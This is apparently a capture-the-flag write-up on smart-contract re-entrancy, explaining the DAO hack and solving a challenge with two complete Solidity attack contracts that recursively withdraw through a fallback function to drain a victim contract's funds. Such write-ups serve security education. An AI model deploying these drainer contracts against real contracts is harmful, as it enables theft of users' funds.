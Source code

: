 # Day 10 - Re-entrancy

## What is re-entrancy

Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.

On one hand, this single-thread execution ensures contracts’ atomicity and eliminates some race conditions. On the other hand, **contracts are vulnerable to poor execution ordering.**

![re-entrancy](./images/re-entrancy-1.jpeg)

In the example above, Contract B is a malicious contract which recursively calls A.withdraw() to deplete Contract A’s funds. Note that the fund extraction successfully finishes before Contract A returns from its recursive loop, and even realizes that B has extracted way above its own balance.

**the DAO hack:**

- Fallback functions can be called by anyone & execute malicious code
- Malicious external contracts can abuse withdrawals

## Solution

1. Create a malicious contract called AttackReentrancy.sol, which will first donate to Reentrance.sol, and then recursively withdraw from it until Reentrance is depleted of funds.

2. Create a public function so AttackReentrancy.sol can donate to Reentrance.sol and be registered as a donor in its balances ledger:

Invoking this function will ensure that your malicious contract will be able to call withdraw() at least once, i.e. passing the if(balances[msg.sender] >= \_amount) check.

![diagram](./images/re-entrancy-2.jpeg)

```js
pragma solidity ^0.6.0;

contract AttackReentrancy {
    address payable victim;

    constructor(address payable _victim) public payable {
        victim = _victim;

        // Call Donate
        bytes memory payload = abi.encodeWithSignature("donate(address)", address(this));
        (bool success,  ) = victim.call{value: msg.value}(payload);
        require(success, "donate failed");
    }

    // be careful of Out of gas error when calling this function
    function maliciousWithdraw() public payable {
        // Call withdraw
        // https://www.reddit.com/r/ethdev/comments/fohqaw/understanding_the_intricacies_of_call/flihiaq/
        bytes memory payload = abi.encodeWithSignature("withdraw(uint256)", 0.1 ether);
        (bool success,  ) = victim.call{gas: 6000000}(payload);
        require(success, "withdraw failed");
    }

    fallback() external payable {
        maliciousWithdraw();
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }
}
```

or

```js
import 'Reentrance.sol';
contract AttackReentrancy {
    Reentrance victim;
    constructor(address payable _victim) public payable {
        victim = Reentrance(_victim);
        victim.donate{value: 1 ether}(address(this));
    }

    function maliciousWithdraw() public payable {
        victim.withdraw(0.5 ether);
    }


    function getBalance() public view returns (uint balance) {
        return address(this).balance;
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }

    fallback() external payable {
        maliciousWithdraw();
    }
}
```
